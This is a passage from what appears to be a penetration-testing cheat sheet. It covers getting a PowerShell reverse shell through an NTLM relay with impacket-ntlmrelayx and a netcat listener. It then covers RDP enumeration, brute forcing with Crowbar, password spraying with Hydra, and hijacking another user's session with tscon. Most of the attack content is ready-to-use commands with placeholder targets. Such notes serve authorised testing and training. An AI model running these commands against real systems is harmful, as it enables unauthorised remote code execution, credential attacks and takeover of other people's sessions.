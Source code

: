 We can create a PowerShell reverse shell using [revshells](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64):
```console
zero@pio$ impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET> -c 'powershell -e <PAYLOAD>'
```

Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell.
```console
zero@pio$ nc -lvnp 9000
```

---

# RDP 
RDP is a proprietary Microsoft protocol which allows a user to connect to a remote system over a network connection and obtain a graphical user interface. RDP uses **port TCP/3389**.
```console
zero@pio$ nmap -Pn -p 3389 <TARGET> 
```

## Connection 

To perform a connection to a RDP:
```console
zero@pio$ xfreerdp /v:<TARGET> /u:<USER> /p:<PASSWORD>
```

```console
zero@pio$ rdesktop -u <USER> -p <PASSWORD> <TARGET>
```

## Explotation 

We can use the [Crowbar](https://github.com/galkan/crowbar) tool to brute force it:
```console
zero@pio$ crowbar -b rdp -s <TARGET> -U <USER LIST> -c '<PASSWORD>'
```

We can also use Hydra to perform an RDP password spray attack:
```console
zero@pio$ hydra -L <USER LIST> -p '<PASSWORD>' <TARGET> rdp
```

### RDP Session Hijacking 

To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session. For example, the following command will open a new console as the specified **SESSION_ID** within our current RDP session:
```console
C:\zeropio> tscon #<TARGET_SESSION_ID> /dest:#<OUR_SESSION_NAME>
```
